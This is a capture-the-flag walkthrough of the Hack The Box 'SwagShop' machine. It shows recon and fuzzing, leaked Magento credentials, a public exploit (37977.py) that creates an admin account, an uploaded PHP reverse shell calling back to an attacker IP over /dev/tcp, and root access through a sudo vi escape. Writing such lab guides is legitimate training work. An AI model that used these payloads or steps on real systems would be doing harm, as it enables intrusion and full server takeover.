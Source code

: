 # SwagShop

**Links:** [1](https://www.hackthebox.com/machines/swagshop)  [2](https://app.hackthebox.com/machines/swagshop)

**Machine ip:** 10.10.10.140

![SwagShop](https://github.com/h4md153v63n/CTFs/assets/5091265/73292ad2-0089-44f9-8d3c-a09b29f7a81d)

## Reconnaissance
First thing first, start with port scan to see which ports are open and which services are running on those ports.
+ `sudo masscan -p1-65535,U:1-65535 --rate=1000 10.10.10.140 -e tun0 > ports`
+ `ports=$(cat ports | awk -F " " '{print $4}' | awk -F "/" '{print $1}' | sort -n | tr '\n' ',' | sed 's/,$//')`
+ `sudo nmap -Pn -n -sV -sC -O -p$ports 10.10.10.140 --open`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/936de3e3-86b1-4006-a7ef-6a3f0fe2aa32)

+ The result shows that 2 tcp ports are open:
```
Port tcp 22: OpenSSH 7.6p1
Port tcp 80: Apache httpd 2.4.29
```


## Enumeration
+ As usual, always start off with enumerating web server first.
+ Visit the web application.
+ Navigate to `http://10.10.10.140/`, and no works.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/867650f8-07a9-4a97-9db1-afa666204b13)

+ Add **swagshop.htb** into **hosts** file, and again revisit.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/5cdd986e-32af-41a3-a1e1-01757f0f2dce)

+ The application is magento that is an open-source e-commerce platform written in PHP.
+ We need to discover the version of magento.
+ As always, on each web app, start directory fuzzing:
```
gobuster dir -e -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://swagshop.htb/ -k -n -x html,php,txt -r -t 50
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/d41e6d29-b58c-4b19-ba61-7b7a4e072b87)

+ Navigate to `http://swagshop.htb/app/etc/local.xml`, and take note of **username:password** with **key**.
+ When trying ssh login and login page with these credentials, it doesn't work.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/bab5becc-4821-4cdd-bce0-ed8f3ed80de7)

+ View page source, and discover unfamiliar directory of **/index.php/**.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/72089ffb-ed32-4861-bae5-91a7d381be1a)

+ Approach with suspicion, and directory fuzzing for under **/index.php/**.
```
gobuster dir -e -w /usr/share/wordlists/dirb/common.txt -u http://swagshop.htb/index.php/ -k -n -x html,php,txt -r -t 20
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/970e5c7a-e7cc-48d3-b20d-8a3ca0967b59)

+ Discovered admin login panel: `http://swagshop.htb/index.php/admin`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/f07c0b07-b08c-44f9-ba1f-fbf1d54e4234)


## Gaining Access
+ Check whether it has any exploits: `searchsploit magento`
+ Focus rce ones, and check **37977.py** with **37811.py**.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/49088aa5-5b40-4b65-9c92-598bc22df3f8)

+ **Firstly**, when tried to exploit with 37811.py, it gives errors **mechanize._form_controls.AmbiguityError: more than one control matching name ‘login[username]’** and **AttributeError: ‘NoneType’ object has no attribute ‘group’**. Check the links: [1](https://forum.hackthebox.com/t/swagshop-rce/1959) [2](https://forum.hackthebox.com/t/was-swagshop-patched-again/3832) [3](https://forum.hackthebox.com/t/swagshop-errors-in-script-37811-py/1965).
+ I didn't try the solution with [burp broxy](https://rana-khalil.gitbook.io/hack-the-box-oscp-preparation/linux-boxes/swagshop-writeup-w-o-metasploit#id-26dd).

+ **Secondly**, concentrate on **37977.py**, and copy the exploit.
+ Open the exploit, and change **target** as `http://swagshop.htb/index.php/`.
+ Delete the 9-23th lines and after the 62nd line.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/a57b0991-8ae7-4301-8c4a-9f2dde48f4fb)

+ If wanna to specify username:pass different from **forme:forme**, try **test:test**.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/7f5f7a01-8539-4792-b5ac-c0d76cfa9836)

+ Run exploit with python2: `python2 37977.py` and see it worked.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/68df934e-dbfb-46b6-b1d4-80013065526c)

+ Login the admin login panel with **test:test**: `http://swagshop.htb/index.php/admin`, and see that worked.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/31fd6e3c-e7e5-4112-b3e8-3e9804c6dbf6)

+ **Follow consecutively**, Catalog -> Manage Products -> Click of the name on products -> Custom Options -> Add New Option: Fill out the fields with Input Type:File and Allowed File Extensions:php -> Save, and be sure that the product has been saved.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/4fb0a78c-13fd-425d-9f14-1872887b7f1a)

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/313ebb45-331c-40bf-93c2-d46a10d22203)

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/bfb592ba-ff8c-4a89-801d-3fe8e4c50321)

+ Next go to the home page `http://swagshop.htb/index.php/`, and click on **5 x Hack The Box Square Sticker**.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/80a6e0ae-b42b-4f0f-a26a-62cec021c306)

+ You will see that now we can upload files using the product fields. The file that we allowed to upload includes all files with PHP extensions:

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/df34f462-7f9b-4146-a5dc-c81071a8c742)

+ Create a reverse shell .php file as **shell.php**. Upload it using **browse** button, and ADD TO CART.
```
<?php system("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.14/4444 0>&1'"); ?>
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/b87bc67d-e9aa-416c-a35d-d512535bea31)

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/502e1a27-71db-44b8-b43c-6aabe2e8c3d2)

+ Start netcat listener on the attack machine: `nc -lnvp 4444`
+ **Finally**, go to the under **media** directory `http://swagshop.htb/media/custom_options/quote/s/h/` that is discovered on the first directory fuzzing.
+ Click the php file named created unique random name.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/d7a200d7-f925-4f1f-af42-f6dc2bbf28f6)

+ Get low level shell, and see the www-data's privilege is enough to view the content of the user flag.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/f283088e-d95e-4d02-a123-46941339b6a1)

+ But yet we need to elevate root privilege.


### Shell Upgrade
+ We have partially interactive bash shell. Upgrade it to get a fully interactive shell, do more stable with a better shell.
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
script /dev/null -c bash
CTRL^Z: Ctrl + Z
stty raw -echo; fg
reset
terminal type? 'screen' or 'xterm'
export TERM=xterm  
export SHELL=bash
stty rows 55 columns 285
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/63a9d3b8-9bc0-4d88-bb02-ca5e422acf27)


## Privilege Escalation
+ Escalate privileges to get the root flag.
+ View commands the user can run using sudo without a password: `sudo -l`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/5a18351b-25b3-4a5e-b513-2cc9f403ab54)
  
+ User **www-data** can run sudo with **no** password and with root's privileges for **/usr/bin/vi** under **/var/www/html/**.
+ Check gtfobins for [vi](https://gtfobins.github.io/gtfobins/vi/).
+ Run the commands to get the root shell:
```
sudo /usr/bin/vi /var/www/html/test

# on vi editor:
:!bash
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/e815cb80-6768-44e3-b989-e788070d7042)

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/9f9f5417-4313-4712-9274-ac6d79c0fddc)


# Technical Knowledge
+ https://websec.wordpress.com/2014/12/08/magento-1-9-0-1-poi/
+ 


# CVE Scripting
+ xxx


# References & Alternatives
+ https://vvmlist.github.io/#swagshop
+ https://0xdf.gitlab.io/2019/09/28/htb-swagshop.html
+ https://www.hackingarticles.in/swagshop-hackthebox-walkthrough/
+ https://rana-khalil.gitbook.io/hack-the-box-oscp-preparation/linux-boxes/swagshop-writeup-w-o-metasploit
+ https://manuelvazquez-contact.gitbook.io/oscp-prep/hack-the-box/swagshop/scanning-and-enumeration
+ https://medium.com/@v1per/swagshop-hackthebox-writeup-a23f18e6b88b
